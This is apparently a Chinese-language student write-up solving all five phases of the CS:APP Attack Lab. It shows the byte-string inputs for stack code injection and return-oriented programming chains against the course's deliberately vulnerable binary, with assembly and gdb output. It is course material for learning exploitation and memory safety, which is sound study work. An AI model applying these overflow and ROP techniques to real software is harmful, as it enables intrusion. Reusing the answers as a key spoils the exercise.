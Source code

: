 ## Phase1
phase1很简单，关键就是**用touch1的地址覆盖掉原来的返回地址**
直接用objdump反汇编一下

![attacklab](/assets/imgs/attacklab/attacklab-1.png)

不难注意到在getbuf中的第一行就在栈帧上分配了18个bytes的空间，那么我们只需要首先给出18个bytes的垃圾值，再在后面跟上touch1的地址覆盖掉原来的返回地址，程序就会在ret时跳转到touch1
于是，我们就得到了Phase1的解

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
10 17 40 00 00 00 00 00 //touch1
```

运行结果如下

![attacklab](/assets/imgs/attacklab/attacklab-2.png)

## Phase2
和Phase1的不同在于Phase2需要传递参数，即**把我的cookie传递到rdi寄存器中**
所以需要想办法让程序执行下面的汇编代码

```nasm
movq $0x45730404,%rdi
pushq $0x40173c
ret
```

其中0x40173c是touch2的地址

使用gcc编译再用objdump反汇编，会得到

```nasm
0000000000000000 <.text>:
   0:	48 c7 c7 04 04 73 45 	mov    $0x45730404,%rdi
   7:	68 3c 17 40 00       	push   $0x40173c
   c:	c3                   	ret
```

这样就得到了想要执行的代码，只需要想办法让程序能够执行这些代码就可以了
尝试把这段代码当做输入，那么只需要获取这段代码的地址即可
于是，我们使用gdb，在getbuf上打上断点，即可得到此时的栈顶地址，也就是这段代码的地址：0x55657f98

![attacklab](/assets/imgs/attacklab/attacklab-3.png)

于是尝试以下的输入：

```
48 c7 c7 04 04 73 45 68
3c 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
98 7f 65 55 00 00 00 00
```

会发现非常顺利

![attacklab](/assets/imgs/attacklab/attacklab-4.png)

## Phase3
不难发现Phase3和Phase2的差别并不是很大， 只不过想要传递的值变为了字符串(我的cookie)的地址而已，但我的cookie在原程序中并不存在，所以只能通过我的输入存储在栈上。

我的cookie是0x45730404，转换为ascii码是34 35 37 33 30 34 30 34，文档中说

> The string should consist of the eight hexadecimal digits (ordered from most to least significant) without a leading “0x.”

于是我的第一个解答诞生了

```
34 35 37 33 30 34 30 34
48 c7 c7 98 7f 65 55 68
4d 18 40 00 c3 00 00 00
a0 7f 65 55 00 00 00 00
```

我的想法就是把需要的字符串首先输入，存储在getbuf的栈帧上，然后就可执行如下指令

```nasm
movq $0x55657f98,%rdi 
pushq $0x40184d
ret
```

这其中，0x55657f98是getbuf的栈顶的位置，此时这里存储着需要的字符串，0x40184d是touch3的地址。由于0x55657f98上并不是想要执行的代码，所以在输入中，把返回地址覆盖为0x55657fa0。
出乎我的意料的是竟然没有成功，仔细看文档，发现在Advice中还有这种东西：

>When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where you place the string representation of your cookie.

所以我的字符串并不能放在getbuf的栈帧中....
注意到getbuf是由test调用，二者的关系如下：

```c
unsigned getbuf()
{
	char buf[BUFFER_SIZE];
	Gets(buf);
	return 1;
}

void test()
{
	int val;
	val = getbuf();
	printf("...");
}
```

所以接下来尝试把字符串放在test的栈帧中
于是有了第二个答案：

```
48 c7 c7 b8 7f 65 55 68
4d 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
98 7f 65 55 00 00 00 00
34 35 37 33 30 34 30 34
```

与第一个答案不同的是，在我想要执行的指令中，字符串的地址变为了0x55657fb8。这是因为此时字符串在test的栈帧中，我们获取test的栈顶地址

![attacklab](/assets/imgs/attacklab/attacklab-5.png)

就是字符串的地址
于是Phase3就被我们解决了

![attacklab](/assets/imgs/attacklab/attacklab-6.png)

## Phase4
从Phase4开始就进入了ROP阶段，由于栈的随机化等等保护措施，我们并不能像前三个Phase那样
直接注入代码，而是调用程序中本就存在的代码，也就是gadget
Phase4仍然是解决touch2，需要输入我们的cookie
首先我们需要想办法把我们的cookie传递到程序中，由于栈的位置不确定，不能直接使用立即数了，只能想办法把cookie传递给rdi寄存器
我们只需要把我的cookie放到栈顶，然后执行如下指令

```nasm
popq %rdi
ret
```

然而我们翻遍`farm`也只能找到`popq %rax`对应的字节码，于是只能这样

```nasm
popq %rax  //58
movq %rax,%rdi //48 89 c7
```

![attacklab](/assets/imgs/attacklab/attacklab-7.png)
![attacklab](/assets/imgs/attacklab/attacklab-8.png)

二者可以在如上的位置找到，于是我们就得到了解

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ec 18 40 00 00 00 00 00
04 04 73 45 00 00 00 00
12 19 40 00 00 00 00 00
3c 17 40 00 00 00 00 00 //touch2
```

![attacklab](/assets/imgs/attacklab/attacklab-9.png)

尝试运行，发现成功解决

## Phase5
这最后一个Phase同样是通过ROP的方式让程序执行touch3，同样的，需要想办法把我的cookie字符串放在栈上，并想办法把它的地址传递给rdi寄存器
同样由于栈的地址不确定，不能直接解决
注意到`farm.c`中有这样一个函数

```c
/* Add two arguments */
long add_xy(long x, long y)
{
	return x+y;
}
```

其对应的汇编是这样

```nasm
0000000000401923 <add_xy>:
  401923: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  401927: c3                    ret
```

或许我们可以想办法获取rsp的值和cookie字符串在栈上的偏移量，然后利用这个函数来得到字符串的绝对地址
首先想办法获取rsp的值，在`farm.c`的汇编文件中搜索一下，发现只能执行`movq %rsp,%rax`

![attacklab](/assets/imgs/attacklab/attacklab-10.png)

这里的`48 89 e0`即是`movq %rsp,%rax`
接下来我们想执行`movq %rax,%rdi`或者`movq %rax,%rsi`，一搜索，还真有！

![attacklab](/assets/imgs/attacklab/attacklab-11.png)

然而只有`48 89 c7`，也就是`movq %rax,%rdi`
那么我们只能想办法把偏移量传给rsi了，我们这时候显然并不知道偏移量，但我们知道如何把偏移量传递给寄存器，也就是使用popq指令，然而同样的，我们只能找到`popq %rax`对应的字节码，接下来的任务就是想办法把rax的值传给rsi了
经过一系列的尝试(这里就不写了)，我们最后发现只有这么一套操作是可行的：

```nasm
movl %eax,%ecx
movl %ecx,%edx
movl %edx,%esi
```

于是我们可以暂时的得到我们的答案了

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
3f 19 40 00 00 00 00 00 //movq %rsp,%rax
12 19 40 00 00 00 00 00 //movq %rax,%rdi
ec 18 40 00 00 00 00 00 //popq %rax
XX 00 00 00 00 00 00 00 //偏移量
af 19 40 00 00 00 00 00 //movl %eax,%ecx
73 19 40 00 00 00 00 00 //movl %ecx,%edx
8e 19 40 00 00 00 00 00 //movl %edx,%esi
23 19 40 00 00 00 00 00 //lea (%rdi,%rsi,1),%rax
12 19 40 00 00 00 00 00 //movq %rax,%rdi 再把字符串的地址传递给rdi
4d 18 40 00 00 00 00 00 //touch3
34 35 37 33 30 34 30 34 //Cookie字符串
```

有了这些，也不难确定偏移量XX为0x48了，尝试运行

![attacklab](/assets/imgs/attacklab/attacklab-12.png)

到此，全部解决！


